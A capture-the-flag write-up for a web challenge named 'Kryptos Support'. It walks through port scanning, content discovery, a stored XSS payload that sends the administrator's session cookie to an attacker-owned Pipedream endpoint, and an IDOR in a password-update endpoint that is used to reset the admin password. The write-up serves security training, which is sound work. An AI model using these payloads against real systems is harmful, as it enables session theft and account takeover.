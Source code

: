 # Kryptos Support

> The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?

---

## Web Application Enumeration

Appears to be a Node.js web application, built with the Express framework.

```bash
$ nmap -Pn -sV -p32131 165.227.224.55
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-15 18:27 EDT
Nmap scan report for 165.227.224.55
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
32131/tcp open  http    Node.js (Express middleware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.95 seconds
```

### Site Map

- [ ] `/`: Form for submitting issues regarding the Kryptos vault
- [ ] `/login`: Login page (username and password)


### Content Discovery

Several paths, except for `/login`, redirect to `/`. `/static` 404s.

```bash
$ feroxbuster -u http://165.227.224.55:32131 --no-recursion

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.5.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://165.227.224.55:32131
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.5.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        1l        4w       23c http://165.227.224.55:32131/logout => /
200      GET       53l      114w     2352c http://165.227.224.55:32131/login
302      GET        1l        4w       23c http://165.227.224.55:32131/admin => /
302      GET        1l        4w       23c http://165.227.224.55:32131/Admin => /
301      GET       10l       16w      179c http://165.227.224.55:32131/static => /static/
200      GET       53l      114w     2352c http://165.227.224.55:32131/Login
302      GET        1l        4w       23c http://165.227.224.55:32131/ADMIN => /
302      GET        1l        4w       23c http://165.227.224.55:32131/settings => /
302      GET        1l        4w       23c http://165.227.224.55:32131/tickets => /
302      GET        1l        4w       23c http://165.227.224.55:32131/Settings => /
301      GET       10l       16w      179c http://165.227.224.55:32131/Static => /Static/
302      GET        1l        4w       23c http://165.227.224.55:32131/Logout => /
200      GET       53l      114w     2352c http://165.227.224.55:32131/LOGIN
302      GET        1l        4w       23c http://165.227.224.55:32131/Tickets => /
301      GET       10l       16w      179c http://165.227.224.55:32131/STATIC => /STATIC/
[####################] - 1m     29999/29999   0s      found:15      errors:0
[####################] - 1m     29999/29999   432/s   http://165.227.224.55:32131
```

### Kryptos Vault Issue Form

Submitting the form results in an HTTP `POST` request to `/api/tickets/add`.

```http
POST /api/tickets/add HTTP/1.1
Host: 165.227.224.55:32131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://165.227.224.55:32131/
Content-Type: application/json
Origin: http://165.227.224.55:32131
Content-Length: 18
Connection: close

{"message":"blah"}
```

The response indicates the submission will be reviewed by an administrator shortly.

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 55
ETag: W/"37-xX0taFpln/xC3zxt223Qgw6N4F8"
Date: Sun, 15 May 2022 22:29:33 GMT
Connection: close

{"message":"An admin will review your ticket shortly!"}
```

This seems like a ripe XSS opportunity. The following payload sends the administrator's cookie to a [Pipedream]() instance owned by the attacker.

```http
POST /api/tickets/add HTTP/1.1
Host: 165.227.224.55:32131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://165.227.224.55:32131/
Content-Type: application/json
Origin: http://165.227.224.55:32131
Content-Length: 104
Connection: close

{"message":"<img src=x onerror=this.src='https://en54jwrybvpd4za.m.pipedream.net?q='+document.cookie;>"}
```

The resultant cookie is a JWT: `session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2NTQxOTN9.U9I8eLSVmrPRjp_ptYTd6_ABK0jlBJLok-XNf3Xb-OU`.

Its payload indicates it is for the `moderator` user, with user ID `100`.

```json
{
  "username": "moderator",
  "uid": 100,
  "iat": 1652654193
}
```

Setting this cookie grants access to `/admin` and `/settings` as `moderator`. `/settings` makes it possible to change the current user's password, generating the following HTTP request:

```http
POST /api/users/update HTTP/1.1
Host: 138.68.188.223:32729
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.188.223:32729/settings
Content-Type: application/json
Origin: http://138.68.188.223:32729
Content-Length: 30
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2NjEwMTh9.Umnn_EvgeD3un7HuWYXmJyGgVDKhpm4sDLvIziYRklU

{"password":"blah","uid":"100"}
```

A bit of probing indicates this endpoint is vulnerable to an Insecure Directory Object Reference (IDOR) vulnerability, making it possible to change another user's password by modifying the `uid` parameter to that user's ID. Some trial and error shows that the user ID 1 belongs to `admin`. Change `admin`'s password.

```http
POST /api/users/update HTTP/1.1
Host: 138.68.188.223:32729
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.188.223:32729/settings
Content-Type: application/json
Origin: http://138.68.188.223:32729
Content-Length: 30
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2NjEwMTh9.Umnn_EvgeD3un7HuWYXmJyGgVDKhpm4sDLvIziYRklU

{"password":"blah","uid":"1"}
```

Login with the credential `admin`:`blah` and grab the flag.
